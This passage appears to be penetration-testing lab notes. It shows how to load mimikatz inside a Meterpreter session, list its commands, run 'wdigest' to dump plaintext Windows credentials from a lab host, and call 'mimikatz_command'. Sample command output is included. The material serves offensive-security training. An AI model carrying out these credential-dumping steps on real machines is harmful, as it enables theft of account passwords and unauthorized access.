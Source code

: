       We can then load mimikatz and start using its feature to gather palintext credentials. The command are very simple: we first run `load mimikatz` and then we print the help manual to list the new commands available:
        ```
        meterpreter > load mimikatz
        Loading extension mimikatz...success.
        ```
        ```
        Mimikatz Commands
        =================

          Command           Description
          -------           -----------
          kerberos          Attempt to retrieve kerberos creds
          livessp           Attempt to retrieve livessp creds
          mimikatz_command  Run a custom command
        ```

      As we can see from the commands listed, we can try to retrieve credentials from different services and protocols. Here we will try to retrieve the credentials with [wdigest][https://technet.microsoft.com/en-us/library/cc778868(v=ws.10).aspx]:
        ```
        meterpreter > wdigest
        [+] Running as SYSTEM
        [*] Retrieving wdigest credentials
        wdigest credentials
        ===================

        AuthID      Package    Domain        User           Password
        ------      -------    ------        ----           --------
        0;999       NTLM       WORKGROUP     ELS$
        0;9997      Negotiate  NT AUTHORITY  LOCAL SERVICE
        0;1576331   NTLM       els           user
        0;996       Negotiate  WORKGROUP     ELS$
        0;47435     NTLM
        0;1576312   NTLM       els           user
        0;10194500  NTLM       els           user           pwd
        0;10194514  NTLM       els           user           pwd
        0;378812    NTLM       els           els            pwdels
        0;378766    NTLM       els           els            pwdels
        ```

      To get the best out of mimikatz, we suggest you read the tool wiki [here][https://github.com/gentilkiwi/mimikatz/wiki] and test its modules and commands.
        ```
        meterpreter > mimikatz_command -f *::
        Module : '*' introuvable

        Modules disponibles :
                        - Standard
                crypto  - Cryptographie et certificats
                  hash  - Hash
                system  - Gestion systeme
               process  - Manipulation des processus
                thread  - Manipulation des
               service  - Manipulation des
             privilege  - Manipulation des
        ```
